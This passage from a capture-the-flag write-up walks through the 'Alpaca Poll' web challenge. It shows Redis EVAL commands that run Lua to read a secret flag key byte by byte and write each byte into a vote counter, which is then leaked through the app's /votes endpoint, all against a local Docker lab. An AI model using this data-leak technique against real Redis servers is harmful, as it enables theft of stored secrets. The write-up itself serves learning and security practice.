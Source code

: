 After looking around in the [Redis commands documentation](https://redis.io/docs/latest/commands/), the [`EVAL` command](https://redis.io/docs/latest/commands/eval/) caught my eyes:

> Invoke the execution of a server-side Lua script.[...]

Huh, it can execute Lua script?

If we look at the Redis configuration, we can see that **command `EVAL` is NOT disabled**!

Therefore, by using command `EVAL`, we can **use Lua script to convert the flag characters into digits**!

To do so, we can convert the flag character to byte, then overwrite the animal key with that byte, and finally get the byte via GET route `/votes`!

Let's test this in the Docker container!

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Alpaca-Poll)-[2024.12.01|14:45:48(HKT)]
└> docker container list    
CONTAINER ID   IMAGE                     COMMAND                  CREATED          STATUS          PORTS                                       NAMES
cc9d957db81c   alpaca-poll-alpaca-poll   "docker-entrypoint.s…"   24 minutes ago   Up 24 minutes   0.0.0.0:3000->3000/tcp, :::3000->3000/tcp   alpaca-poll-alpaca-poll-1
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Alpaca-Poll)-[2024.12.01|14:45:52(HKT)]
└> docker exec -it cc9d957db81c /bin/bash
I have no name!@cc9d957db81c:/app$ redis-cli 
127.0.0.1:6379> 
```

```shell
127.0.0.1:6379> EVAL "local flag = redis.call('GET', KEYS[1]); local flagByte = string.byte(flag, 1); return flagByte" 1 flag
(integer) 65
```

In here, we get the key `flag`, then use `string.byte` to convert the first character of `flag` to byte. As we can see, it's integer 65! Which means this value will be matched in the regex pattern.

Let's try to overwrite an animal's key and see if it's work:

```shell
127.0.0.1:6379> EVAL "local flag = redis.call('GET', KEYS[1]); local flagByte = string.byte(flag, 1); redis.call('SET', KEYS[2], flagByte)" 2 flag cat
(nil)
```

```http
GET /votes HTTP/1.1
Host: localhost:3000


```

Response:

```json
{"dog":6,"cat":65,"alpaca":10000}
```
